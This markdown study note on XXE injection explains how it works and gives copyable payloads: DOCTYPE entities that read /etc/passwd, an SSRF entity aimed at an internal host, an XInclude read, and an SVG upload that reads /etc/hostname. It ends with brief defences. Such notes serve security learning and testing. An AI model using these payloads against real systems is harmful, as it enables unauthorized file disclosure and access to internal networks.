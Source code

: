 # XXE (XML external entity)

### What is XML

* Some applications use the XML format to transmit data between the browser and the server.
* Its popularity has now declined in favor of the JSON format

## Impact

* Retrieve files
* Perform SSRF attacks

## Exploiting XXE to retrieve files

1. Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file
2. Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

* Note: To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck> 
```

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## Exploiting XXE to perform SSRF attacks

* Reflected SSRF
* Bind SSRF

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Blind XXE

* to do

## Finding hidden attack surface for XXE injection

* Requests that contain data in XML format
* Requests that do not contain any XML
  * (A way to detect) It's useful add entity reference that doesn't exist to cause an error condition -> ok it's XML ...
  * XInclude attacks
    * Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document
    * XInclude is a part of the XML specification that allows an XML document to be built from sub-documents
    * ```
      <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/></foo>
      ```
  * Via file upload
    * Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG
    * `<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>`
      * This works if it's used image processing library & support SVG images & allow external entity
  * Via modified content type
    * To do

## Defence

* Disable resolution of external entities
* Disable support for XInclude
